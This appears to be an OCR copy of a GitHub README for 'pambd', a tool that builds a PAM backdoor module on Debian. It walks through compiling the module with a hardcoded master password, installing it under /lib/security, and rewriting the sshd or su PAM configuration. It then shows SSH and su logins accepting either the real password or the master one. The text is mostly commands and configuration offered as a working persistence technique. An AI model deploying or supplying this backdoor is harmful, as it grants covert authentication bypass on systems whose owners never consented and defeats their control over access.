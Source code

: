 pambd
=====

Introduction
------------

Note: the software in this repository is targeted toward Debian.
Some paths and configurations will be different on other
distributions of Linux. Adjust the gen.sh bash script appropriately.

This trick shows you how to create a PAM module backdoor that 
allows to execute an user login with your own custom password.

If you try to make the login with the real password of the target 
user and the authentication fails, the pam_auth.so switches to the 
pambd.so and viceversa.


Generate the backdoor
---------------------

If you get the error:

```bash
pambd.c:13:31: fatal error: security/pam_appl.h: No such file or directory
```

First install the package **libpam-dev** that contains the needed headers file for compilation:

```bash
deftcode pambd $ sudo apt-get install libpam0g-dev
```

Now edit the **pambd.c** and set your master custom password:

```c
#define MYPASSWD "my_master_passwd"
```

After that, generate the pam backdoor with:
(It needs the root permissions)

```bash
deftcode pambd $ sudo sh gen.sh
```

This will generate the pam backdoor at **/lib/security/pambd.so**.


Configure the PAM service you want to hijack
--------------------------------------------

Edit the **/etc/pam.d/sshd** or other that use PAM like **/etc/pam.d/su** and then replace the content with these lines:

```bash
nauth           sufficient      pam_rootok.so
auth            sufficient      pam_unix.so     # This must be 'sufficient'.
account         required        pam_unix.so
session         required        pam_unix.so
auth            sufficient      pam_bd.so        # This is our pam backdoor.
account         sufficient      pam_bd.so        # --
```


Test the backdoor
-----------------

After you have created the pambd backdoor, you can test It.

```bash
deftcode pambd $ file /lib/security/pambd.so 
/lib/security/pambd.so: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked, not stripped
```

Example with the **SSH** service:

```bash
deftcode pambd $ ssh eurialo@deftcode.local
eurialo@deftcode.local password: 

# eg. enter: my_master_passwd or real_user_password

Last login: Thu May 21 05:55:13 2015 from localhost
deftcode ~ $ 
```

Example with **su**:

```bash
deftcode pambd $ su -
Password: 

# eg. enter: my_master_passwd or real_user_password

deftcode ~ # 
```
